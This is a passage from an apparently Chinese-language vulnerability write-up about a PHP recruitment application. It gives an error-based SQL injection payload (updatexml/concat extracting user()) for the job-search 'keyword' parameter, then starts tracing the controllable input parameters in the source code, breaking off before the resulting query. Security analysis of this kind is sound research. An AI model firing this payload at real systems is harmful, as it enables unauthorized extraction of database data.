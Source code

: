 Payload：

```rb
/index.php/v1_0/home/job/index?keyword='+(select+updatexml(0,concat(0x1,(select/**/user())),0))+'
```

![pFsebVg.png](assets/1710993004-853577f15e4562ef7bc464d43f7e159a.png)

#### 代码分析

基于前一个 sql 注入的思路，找到可控点，在 index 函数重点关注如下四个：

```php
$search_type = input('get.search_type/s', '', 'trim');
$keyword = input('get.keyword/s', '', 'trim');
$tag = input('get.tag/s', '', 'trim');
$sort = input('get.sort/s', '', 'trim');
```

![pFseXPs.png](assets/1710993004-4c06ef9674b7fdd166ce050a9092d04d.png)

这里先分析 $keyword 参数，传入值并跟踪，得到如下 sql 查询语句：
